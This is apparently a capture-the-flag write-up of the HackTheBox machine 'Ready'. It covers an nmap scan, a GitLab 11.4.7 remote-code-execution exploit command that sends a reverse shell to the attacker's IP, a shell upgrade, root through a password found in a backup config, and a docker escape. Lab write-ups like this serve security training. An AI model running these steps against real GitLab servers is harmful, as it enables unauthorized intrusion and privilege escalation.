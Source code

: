 Ready
==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

Visitng the help page we find the version number with the hint to update asap:

![gitlabhelp.png](images/gitlabhelp.png)

Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

to get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker ant rooted the machine.
